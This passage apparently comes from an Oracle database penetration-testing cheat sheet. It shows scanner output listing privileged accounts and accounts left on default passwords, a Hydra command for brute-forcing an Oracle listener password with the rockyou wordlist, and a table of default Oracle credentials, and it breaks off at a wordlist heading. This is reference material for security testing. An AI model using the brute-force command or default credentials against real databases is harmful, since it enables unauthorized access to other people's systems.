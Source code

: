 ```
[*] Accounts that have CREATE LIBRARY Privilege on the System are:
[*]      SYS
[*]      XDB
[*]      EXFSYS
[*]      MDSYS
[*]      DBA
[*] Default password check:
[*]      The account DIP has a default password.
[*]      The account MDSYS has a default password.
[*]      The account XS$NULL has a default password.
[*]      The account OUTLN has a default password.
[*]      The account EXFSYS has a default password.
[*]      The account ORACLE_OCM has a default password.
[*]      The account SCOTT has a default password.
[*]      The account ORDPLUGINS has a default password.
[*]      The account ORDSYS has a default password.
[*]      The account APPQOSSYS has a default password.
[*]      The account ORDDATA has a default password.
[*]      The account XDB has a default password.
[*]      The account SI_INFORMTN_SCHEMA has a default password.
[*]      The account WMSYS has a default password.
[*] Auxiliary module execution completed
```

### Hydra

brute-force a listener password if exists:

```
./hydra -P rockyou.txt -t 32 -s 1521 host.victim oracle-listener
```

## Default accounts

| Username  | Password             |
| --------- | -------------------- |
| SYSTEM    | MANAGER              |
| SYS       | CHANGE\_ON\_INSTALL  |
| DBSNMP    | DBSNMP               |
| SCOTT     | TIGER                |
| PCMS\_SYS | PCMS\_SYS            |
| WMSYS     | WMSYS                |
| OUTLN     | OUTLN                |

**Try lowercase as well**

**wordlist:**
